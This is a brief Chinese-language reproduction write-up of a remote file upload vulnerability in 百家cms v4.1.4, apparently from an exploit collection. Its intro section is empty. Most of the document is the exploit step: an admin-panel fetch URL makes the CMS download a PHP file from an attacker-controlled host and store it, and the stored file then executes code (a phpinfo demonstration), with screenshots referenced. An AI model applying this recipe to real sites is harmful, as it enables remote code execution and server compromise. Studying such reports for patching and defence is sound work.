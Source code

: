 百家cms v4.1.4 远程文件上传漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php

远程服务器起一个/test/test.php，内容为\*\*\<?php echo \"\<?php
phpinfo();\";\*\*

![](./.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId24.png)

访问payload，得到路径

![](./.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId25.png)

访问路径，执行代码

![](./.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId26.png)

查看本地文件

![](./.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
